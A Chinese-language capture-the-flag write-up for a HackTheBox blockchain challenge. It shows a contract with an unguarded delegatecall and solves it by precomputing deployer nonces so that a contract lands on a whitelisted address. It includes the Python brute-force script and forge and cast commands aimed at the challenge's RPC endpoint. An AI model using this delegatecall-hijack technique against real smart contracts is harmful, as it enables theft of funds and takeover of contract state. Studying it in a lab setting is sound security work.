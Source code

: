 ```yaml
---
title: HTB Blockchain Challenge - Portal Nonsense
date: {{ date }}
cover   : "/img/htb3.jpeg"
tags: Blockchain SmartContract Exploit
---
```

Portal Nonsense
===

### Portal.sol
```solidity=
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract PortalStation {
    
    mapping(string => address) public destinations;
    mapping(string => bool) public isPortalActive;
    bool isExpertStandby;

    constructor() {
        destinations["orcKingdom"] = 0xFC31cde4aCbF2b1d2996a2C7f695E850918e4007;
        destinations["elfKingdom"] = 0x598136Fd1B89AeaA9D6825086B6E4cF9ad2BD4cF;
        destinations["dawrfKingdom"] = 0xFc2D16b59Ec482FaF3A8B1ee6E7E4E8D45Ec8bf1;
        isPortalActive["elfKingdom"] = true;
    }

    function requestPortal(string calldata _destination) public payable {
        require(destinations[_destination] != address(0));
        require(isExpertStandby, "Portal expert has a day off");
        require(msg.value > 1337 ether);

        isPortalActive[_destination] = true;
    }

    function createPortal(string calldata _destination) public {
        require(destinations[_destination] != address(0));
        
        (bool success, bytes memory retValue) = destinations[_destination].delegatecall(abi.encodeWithSignature("connect()"));
        require(success, "Portal destination is currently not available");
        require(abi.decode(retValue, (bool)), "Connection failed");
    }

}


```

### 分析
* 這題很明顯是要透過 `delegatecall` 呼叫外部合約來改變自身合約的變數
* 但這邊有一個問題在於，我們要如何產生一個合約地址是destinations裡面的其中之一
* 對於一般帳戶而言，合約的地址是取決於 deployer address 與 nonce
* 因此我們可以透過城市計算出需要部署多少個合約，可以得到我們目標的合約地址

#### 計算合約地址
* 可以使用 eth-util或是 foundryup 的 cli計算
* `cast compute-address {deployer} --nonce {nonce}`
```python=
import subprocess
import os
dest = ["0xFc2D16b59Ec482FaF3A8B1ee6E7E4E8D45Ec8bf1", "0x598136Fd1B89AeaA9D6825086B6E4cF9ad2BD4cF", "0xFC31cde4aCbF2b1d2996a2C7f695E850918e4007", "0xB89EcCb84C7CA4D2d28ecb49617982D4FF4c8CcE"]
dest = [i.lower() for i in dest]

deployer = "0xaDb67e10Fa330db49e98201B4c5F19356CfA3f59"

for i in range(1,1000):
    ret = str(subprocess.check_output('cast compute-address '+deployer+ " --nonce " + str(i), shell=True))
    ret = ret.split(': ')[1].replace('\\n', '' ).replace("'", "")
    #print(ret)
    if ret.lower() in dest:
        print(i)
        print(ret)
        break

```

![image](https://hackmd.io/_uploads/r1hkR72_a.png)

* 只要我們生成130次合約，就可以取得目標地址




### Exploit
* 利用 delegatecall 來改變數

```solidity=
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Delegate {
    mapping(string => address) public destinations;
    mapping(string => bool) public isPortalActive;
    bool isExpertStandby;
    bool public suc;
    bool public ret;
    constructor() payable {
        destinations["orcKingdom"] = 0xFC31cde4aCbF2b1d2996a2C7f695E850918e4007;
        destinations["elfKingdom"] = 0x598136Fd1B89AeaA9D6825086B6E4cF9ad2BD4cF;
        destinations["dawrfKingdom"] = 0xFc2D16b59Ec482FaF3A8B1ee6E7E4E8D45Ec8bf1;
        isPortalActive["elfKingdom"] = true;
    }
    receive() external payable {
    }
    function delegate(address _target) public {
        (bool success, bytes memory retValue) = _target.delegatecall(abi.encodeWithSignature("connect()"));
        require(success, "Portal destination is currently not available");
        require(abi.decode(retValue, (bool)), "Connection failed");
    }
}


```



* generate 130 
```python=
for i in range(131):
    ret = str(subprocess.check_output('forge create src/test.sol:test --rpc-url http://167.99.85.216:30676/rpc --private-key {{private key}}', shell=True))
    print(ret)


```
* ` cast send --rpc-url http://167.99.85.216:30676/rpc --private-key {{private key}}  0xACef632826fb9d4EF70cB70640b5F56b7474B3a9 "createPortal(string)" "orcKingdom"`

* `cast call --rpc-url http://167.99.85.216:30676/rpc --private-key {{private key}}  0xfD730FDDbD5b98471b7a0fE78d2CB0Fd0E5454BA "isSolved()"` 
